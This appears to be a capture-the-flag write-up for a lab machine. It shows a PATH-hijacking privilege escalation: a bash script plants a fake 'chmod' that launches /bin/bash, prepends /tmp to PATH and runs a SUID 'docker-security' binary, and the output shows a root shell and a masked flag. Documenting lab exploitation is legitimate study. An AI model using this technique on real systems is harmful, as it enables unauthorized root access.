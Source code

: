 # Root Exploit

## Path hijacking

* __Referense:__ hackingarticles.in [article](https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/)

* a simple bash script

	  ❯ cat scrp.sh
	  cd /tmp
	  echo "/bin/bash" > chmod
	  chmod +x chmod
	  echo $PATH
	  export PATH=/tmp:$PATH
	  cd /usr/local/bin
	  ./docker-security

* run that script and simply get the root shell -

	  (remote) dexter@laboratory:/home/dexter$ bash scrp.sh
	  /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/snap/bin
	  root@laboratory:/usr/local/bin# id 
	  uid=0(root) gid=0(root) groups=0(root),1000(dexter)
	  root@laboratory:/usr/local/bin# cd /root
	  root@laboratory:/root# cat root.txt
	  229dd8c7************************